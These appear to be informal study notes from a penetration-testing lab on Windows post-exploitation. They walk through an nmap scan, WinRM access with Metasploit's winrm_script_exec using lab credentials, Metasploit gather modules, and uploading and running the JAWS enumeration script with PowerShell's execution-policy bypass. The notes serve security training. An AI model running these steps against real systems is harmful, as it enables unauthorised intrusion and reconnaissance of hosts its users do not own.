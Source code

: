 
exploit 
nmap -sV -Pn -sS target
WINRM
We can gain access to the target system by authenticating with WinRM sever on the target system. This can be done through the use of a Metasploit module.

In order to save time, you have been provided with access to the following credentials to gain access to the target system (**administrator/tinkerbell**).
WINRM 
use exploit/windows/winrm/winrm_script_exec
username : administrator
password : tinkerbell
set vbs:  true
after exploit

- background
- use post/windows/gather/win_privs
	- This module will print if UAC is enabled, and if the current account 
	  is ADMIN enabled. It will also print UID, foreground SESSION ID, is 
	  SYSTEM status and current process PRIVILEGES.
- use post/windows/gather/enum_logged_on_users
	- This module will enumerate current and recently logged on Windows 
	  users
  - use post/windows/gather/checkvm
	  - This module attempts to determine whether the system is running 
	  inside of a virtual environment and if so, which one. This module 
	  supports detection of Hyper-V, VMWare, Virtual PC, VirtualBox, Xen, 
	  and QEMU.
- use post/windows/gather/enum_applications
- use post/windows/gather/enum_computers
- use post/windows/gather/enum_patches

-  Automating local enumeration with JAWS
	- **JAWS (Just Another Windows Enum Script)**.
- JAWS is an open-source PowerShell script designed to help penetration testers automate local enumeration and identify privilege escalation vectors on Windows systems.
- GitHub repository: https://github.com/411Hall/JAWS
- Once you have copied the script from the GitHub repo, navigate back to the Kali Linux system in your lab environment and create a new file with a text editor like leafpad.
- save the file as **jaws-enum.ps1**
- We can now navigate back to our meterpreter session and navigate to the C:\ drive by running the following command:


on attacker machine
- go github page
- copy script of jaws
- make file and paste the script
- name it jaws-enum.ps1

on victim machine 
- cd C:\\
We will then need to create the
Temp
directory by running the following command:
Command:
- mkdir Temp
Command:
- cd Temp
- upload /root/Desktop/jaws-enum.ps1
- shell
- 
```
powershell.exe -ExecutionPolicy Bypass -File .\jaws-enum.ps1 -OutputFilename JAWS-Enum.txt
```
- download JAWS-Enum.txt
- collect information
As shown in the preceding screenshot, the **jaws-enum.ps1** script will run and save the results in to a file called **JAWS-Enum.txt**.

**Note:** JAWS will take a couple of minutes to complete the enumeration process, so do not be alarmed if the script looks like it has paused or stopped running.

Once the **jaws-enum.ps1** script is done, we can download the output file for analysis, this can eb done by running the following command:

- download JAWS-Enum.txt
the output file generated by jaws-enum.ps1 contains all relevant information about the target system that we would have otherwise had to have enumerated manually.



